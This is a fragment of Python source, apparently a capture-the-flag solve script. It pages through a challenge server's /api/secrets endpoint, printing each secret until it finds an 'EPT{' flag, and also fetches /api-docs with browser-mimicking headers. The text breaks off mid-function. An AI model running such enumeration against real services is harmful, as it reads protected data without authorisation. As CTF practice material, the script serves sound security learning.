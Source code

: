 ```python
async def access_protected_area(session):
    # Access the /api/secrets endpoint
    secrets_url = urljoin(BASE_URL, '/api/secrets')
    print(f'[+] Attempting to access {secrets_url}')
    # Initialize pagination variables
    page = 79
    page_size = 20  # Adjust if needed
    flag_found = False

    while not flag_found:
        params = {'page': page, 'page_size': page_size}
        print(f"ACCESSING PAGE: {page}")
        async with session.get(secrets_url, params=params) as response:
            if response.status != 200:
                print(f'[-] Failed to access /api/secrets, status code: {response.status}')
                break

            data = await response.json()
            secrets = data.get('secrets', [])

            if not secrets:
                print('[-] No secrets found on this page.')
                break

            for secret in secrets:
                secret_text = secret.get('text', '')
                print(f"[+] Secret found: {secret_text}")
                if 'EPT{' in secret_text:
                    print('[+] Flag found:')
                    print(secret_text)
                    flag_found = True
                    break

            # Check if we've reached the last page
            total_pages = data.get('total_pages', 0)
            if page >= total_pages:
                print('[-] Reached the last page without finding the flag.')
                break
            page += 1  # Move to the next page

    if not flag_found:
        print('[-] Flag not found in any secrets.')

async def access_api_docs(session):
    # Attempt to access the /api-docs endpoint
    api_docs_url = urljoin(BASE_URL, '/api-docs')
    print(f'[+] Attempting to access {api_docs_url}')

    async with session.get(api_docs_url) as response:
        if response.status == 200:
            print('[+] Successfully accessed /api-docs')
            docs_text = await response.text()
            print(docs_text)  # Print the documentation or save it for analysis
        else:
            print(f'[-] Failed to access /api-docs, status code: {response.status}')

async def main():
    connector = aiohttp.TCPConnector(limit_per_host=100)
    timeout = aiohttp.ClientTimeout(total=20)

    # Set headers to mimic a real browser
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)',
```